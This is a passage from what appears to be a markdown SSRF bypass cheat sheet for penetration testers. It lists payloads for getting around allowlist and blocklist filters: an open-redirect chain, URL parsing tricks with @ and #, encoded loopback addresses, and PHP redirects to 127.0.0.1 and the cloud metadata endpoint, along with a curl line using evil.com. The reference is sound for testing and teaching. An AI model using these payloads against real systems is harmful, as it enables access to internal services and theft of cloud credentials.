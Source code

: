   ```bash
  10.0.0.1
  ```
- Check if the server returns a response that reveals any information about the internal service. Also look for the time difference between responses.
  - Automate this process with [SSRFmap](https://github.com/swisskyrepo/SSRFmap/).

# Bypass
### Whitelist
- Find an **Open Redirect** in another domains/subdomains that is whitlised for SSRF checker function:
  - Endpoint that make internal request, but has allowlist-based filter:
    ```bash
    POST /product/stock HTTP/2
    (POST request body)
    stockApi=/product/stock/check?productId=2&storeId=
    ```
  - Endpoint with Open redirect:
    ```bash
    GET /product/nextProduct?path=http://192.168.0.12:8080/admin HTTP/2
    ```
  - Exploit:
    ```bash
    POST /product/stock HTTP/2
    (POST request body)
    stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
    ```
- Modify URL structure
  ```bash
  url=https://localhost/pics.target.tld                                        # Check end with: directory
  url=http://target.tld.localhost:8000/                                        # Check start with
  url=http://localhost:8000/?url=https://target.tld/                           # Check end with: parameter
  url=https://target.tld@127.0.0.1                                             # Credential (@ = %40)
  url=http://localhost%23https://target.tld/                                   # Fragment (# = %23 = %2523)
  url=http://localhost%2523@stock.target.tld/admin/delete?username=carlos      # Combination of # and @
  ```
- Inconsistency between checker function and request sending function.
  ```bash
  curl https://user@evil.com@target.tld/
  ```

### Blacklist
- Encoding
  - hex encoding: `https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1`
  - octal encoding: `https://public.example.com/proxy?url=https://0177.0.0.01`
  - dword encoding: `https://public.example.com/proxy?url=https://2130706433`
  - URL encoding: `https://public.example.com/proxy?url=https://%6c%6f%63%61%6c%68%6f%73%74` and also Double URL-encoding.
  - mixed encoding: `0177.0.0.0x1`
  - General speaking, encoding may bypass blacklist filtering. (`admin`  =>  `Admin` or `%2561dmin`)
- Redirect (`301`) from attacker server to `127.0.0.1`.
  ```html
  url=https://cvefix.ir/redirect.php
  ```
  ```php
  <?php header("location: http://127.0.0.1"); ?>
  ```
  ```php
  <?php header('Location: http://169.254.169.254/latest/meta-data/', TRUE, 303); ?>
  ```